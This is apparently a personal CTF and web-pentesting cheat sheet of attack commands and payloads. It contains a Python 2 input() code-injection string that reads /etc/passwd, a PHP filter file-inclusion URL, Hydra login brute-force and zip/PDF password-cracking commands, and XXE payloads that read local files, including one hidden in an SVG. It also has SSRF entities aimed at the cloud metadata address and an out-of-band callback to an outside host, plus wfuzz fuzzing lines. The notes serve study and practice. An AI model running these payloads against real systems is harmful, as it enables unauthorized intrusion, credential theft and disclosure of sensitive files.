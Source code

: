 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

```__import__("os").system('cat /etc/passwd')```


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition'   , -s specifies port , even if u send pass only, specify user for it to run smoothly


## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash  ( depends on the format of archive/hash, look at previous output )

## PDFCrack
pdfcrack -f locked.pdf -w rockyou.txt

## Cyberchef is really good on the fly

## XXE:
### Normal request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Crafted request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
### SSRF 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> `
### blind SSRF test with your own server
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://toto.afri.ca"> ]> `
##### inline SSRF 
```<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://toto.afri.ca"> %xxe; ]>```

### xxe in svg
```<?xml version="1.0" standalone="yes"?><!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> ```

## Bruteforce/fuzzing

### wfuzz

#### hide 404
`./wfuzz -w wordlist/general/big.txt --hc 404 http://xxxxxxxxzxzx.zxz/FUZZ`
#### parameters
`./wfuzz -w wordlist/general/megabeast.txt --hh 24 http://docker.hackthebox.eu:43658/api/action.php?FUZZ=1`
#### numericals
`./wfuzz -z range,0-10000 --hh 27 http://xxxxxx.xxx/api/action.php?reset=FUZZ`
### data
`./wfuzz -w wordlist/general/big.txt -d "FUZZ=1" http://xxxxx.xxx/api/action.php`

